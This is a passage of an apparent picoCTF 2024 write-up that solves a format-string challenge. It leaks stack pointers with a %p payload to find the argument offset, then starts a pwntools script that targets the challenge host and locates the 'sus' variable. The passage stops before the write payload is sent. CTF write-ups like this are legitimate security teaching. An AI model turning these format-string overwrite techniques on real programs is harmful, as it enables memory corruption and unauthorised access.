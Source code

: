 ```c
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

So what we can see here is that it checks if `sus` is equal to `0x67616c66`. However, what we can see is that `sus` is hardcoded to `0x21737573`, which means we need to find a way to overwrite sus to pass the condition.

So basically, here is plan:

-> Use a basic format string with A's and `%p` pointer to leak data from the program

-> This program is in x64, so we need to make sure we use 8 A's to fill out the stack frame. 

-> We will use the %p format to leak pointers in the format string

-> Here's our basic payload: `AAAAAAAA%p-%p-%p ...` we will repeat the use of `%p` to leak pointer addresses to find how many arguments we need.

->  We then will send a format string payload with the address of `sus`, the format string argument(s), the value of `0x67616c66`.

-> We will use pwntools to send the payload to the elf and pass the check, which will give us flag.

So let's get started.

![Image of info leak](/img/writeups/2024/picoCTF2024/formatstring02.png)

Wow! Lots of data! If we look closely we can see a pointer with the value of `0x4141414141414141` this must be where our input is stored on the stack.

Counting towards that pointer we get a argument amount of 14. Let's find the address of `sus`.

Luckily pwntools will give the address of `sus` through the python code `elf.symbols['sus']`

Let's put this into a solve script:

Wait? How does this work?

Basically, when we send the format string payload, pwntools will turn the address of `sus` as a pointer, and then write the value we give to it to that pointer, basically overwriting whatever initial value `sus` had. 

```python
from pwn import *
from pwnlib.fmtstr import FmtStr, fmtstr_payload, fmtstr_split

context.binary='vuln'
elf = ELF('./vuln')
libc = elf.libc

if args.REMOTE:
#change this on your own remote instance
	p = remote('rhea.picoctf.net', 61865)
else:
	p = process(elf.path)

def send_payload(payload):
	p.sendline(payload)
	p.interactive()

address = elf.symbols['sus']
print(address)
value = 0x67616c66   # this is the value admin needs to be
print(value)
#overwriting the sus address with the value we want
```